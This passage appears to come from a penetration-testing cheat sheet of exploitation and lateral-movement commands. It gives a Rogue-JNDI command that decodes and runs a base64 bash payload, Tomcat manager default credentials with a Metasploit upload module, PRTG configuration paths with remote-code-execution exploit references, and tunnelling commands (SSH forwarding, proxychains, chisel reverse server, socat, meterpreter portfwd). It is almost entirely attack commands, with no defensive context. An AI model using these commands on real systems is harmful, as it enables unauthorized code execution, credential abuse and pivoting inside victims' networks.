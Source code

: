 - Rogue-JNDI

```
$ java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,<base64 payload>} | {base64,-d}|{bash,-i}" --hostname "<IP address>"
```

- Tomcat

```
http://<IP address>:<port>/manager/html
tomcat:s3cret
use exploit/multi/http/tomcat_mgr_upload
```

- PRTG Network Monitor

```
C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.dat
https://github.com/shk0x/PRTG-Network-Monitor-RCE/blob/master/prtg-exploit.sh
use exploit/windows/http/prtg_authenticated_rce
```

#4. - Lateral Movement
-----------------------------------------

- Local Port Forwarding

```
$ ssh -L 1234:localhost:5432 <username>@<remote IP address>
```

- Dynamic Port Forwarding

```
$ ssh -D 1234 <username>@<remote IP address>
```

- Proxychains

```
Edit /etc/proxychains4.conf
$ proxychains <command>
```

- Chisel

```
https://github.com/jpillora/chisel
$ sudo ./chisel server -p 8000 --reverse
$ ./chisel client <IP address>:8000 R:631:127.0.0.1:631
```

- Socat

```
$ socat tcp-listen:9090,fork tcp:127.0.0.1:631 &
```

- Meterpreter

```
meterpreter> portfwd add -l 8082 -p 631 -r 127.0.0.1
```
